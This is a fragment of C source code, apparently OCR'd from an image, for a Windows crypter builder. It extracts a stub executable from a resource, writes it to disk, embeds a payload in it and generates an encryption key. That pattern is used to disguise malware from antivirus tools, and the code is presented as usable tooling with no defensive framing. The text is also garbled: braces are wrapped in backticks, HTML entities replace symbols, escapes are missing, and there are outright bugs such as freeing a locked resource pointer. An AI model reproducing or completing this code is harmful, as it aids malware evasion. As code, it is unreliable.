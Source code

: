 ```
        Debug("Find stub resource error: %lun", GetLastError());
        return FALSE;
    `}`
    DWORD dwSize = SizeofResource(NULL, hRsrc);
    HGLOBAL hGlobal = LoadResource(NULL, hRsrc);
    if (hGlobal == NULL) `{`
        Debug("Load stub resource error: %lun", GetLastError());
        return FALSE;
    `}`
    // get stub's file content
    PBYTE pBuffer = (PBYTE)LockResource(hGlobal);
    if (pBuffer == NULL) `{`
        Debug("Lock stub resource error: %lun", GetLastError());
        return FALSE;
    `}`
    // create output file
    Debug("Creating stub...n");
    HANDLE hFile = CreateFile(szFileName, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) `{`
        Debug("Create stub error: %lun", GetLastError());
        free(pBuffer);
        return FALSE;   
    `}`
    // write stub content to output file
    Debug("Writing payload to stub...n");
    DWORD dwWritten = 0;
    if (WriteFile(hFile, pBuffer, dwSize, &amp;dwWritten, NULL) == FALSE) `{`
        Debug("Write payload to stub error: %lun", GetLastError());
        CloseHandle(hFile);
        free(pBuffer);
        return FALSE;
    `}`
    Debug("Wrote 0x%08x bytesnn");
    CloseHandle(hFile);
    // add payload to stub
    Debug("Updating stub with payload...n");
    if (UpdateStub(szFileName, fs) == FALSE)
        return FALSE;
    return TRUE;
`}`
BOOL GenerateKey(FileStruct *fs) `{`
    fs-&gt;pKey = (PBYTE)malloc(KEY_LEN);
    if (fs-&gt;pKey == NULL) return FALSE;
    // initialize crypto service provider
    HCRYPTPROV hProv = NULL;
    if (CryptAcquireContext(&amp;hProv, NULL, NULL, PROV_RSA_FULL, 0) == FALSE) `{`
        Debug("Crypt aquire context error: %lun", GetLastError());
        free(fs-&gt;pKey);
        return FALSE;
    `}`
    // generate secure bytes
    Debug("Generating cryptographically secure bytes...n");
    if (CryptGenRandom(hProv, KEY_LEN, fs-&gt;pKey) == FALSE) `{`
        Debug("Generate random key error: %lun", GetLastError());
        free(fs-&gt;pKey);
        return FALSE;
    `}`
    Debug("Using key: ");
    for (int i = 0; i &lt; KEY_LEN; i++)
        Debug("0x%02x ", fs-&gt;pKey[i]);
    Debug("n");
    // clean up
```